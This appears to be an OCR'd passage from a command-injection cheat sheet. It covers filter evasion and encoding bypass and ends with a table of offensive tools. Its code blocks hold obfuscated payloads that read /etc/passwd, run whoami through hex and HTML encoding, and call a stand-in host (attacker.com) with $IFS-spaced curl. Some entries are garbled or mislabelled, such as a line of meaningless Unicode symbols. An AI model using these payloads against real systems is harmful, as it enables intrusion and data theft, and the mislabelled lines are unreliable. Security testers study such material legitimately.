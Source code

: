 ### Filter Evasion

Advanced techniques to evade security filters:

```bash
# Command concatenation
'cat'</etc/passwd
"w"h"o"a"m"i

# Wildcard usage
/???/??t /??c/p??s??
/bin/c?t /etc/p?ssw?

# Using aliases
alias ls=whoami;ls

# Double encoding
$(echo -e "\x77\x68\x6f\x61\x6d\x69")  # whoami in hex
```

### Character Encoding Bypass

Different encoding methods to bypass filters:

```bash
# URL encoding
curl$IFS-X$IFS'GET'$IFS"http://attacker.com"

# Unicode encoding
㎈㎉㎊㎋㎌㎍㎎  # Using Unicode lookalikes

# HTML encoding
&#119;&#104;&#111;&#97;&#109;&#105;  # whoami in HTML entities
```

## Common Tools

| Tool        | Description                      | Primary Use Case                 |
| ----------- | -------------------------------- | -------------------------------- |
| Commix      | Automated command injection tool | Discovery and exploitation       |
| Burp Suite  | Web vulnerability scanner        | Traffic interception and testing |
| NetCat      | Network utility                  | Reverse shell handling           |
| Metasploit  | Exploitation framework           | Advanced payload delivery        |
| PowerSploit | PowerShell post-exploitation     | Windows command execution        |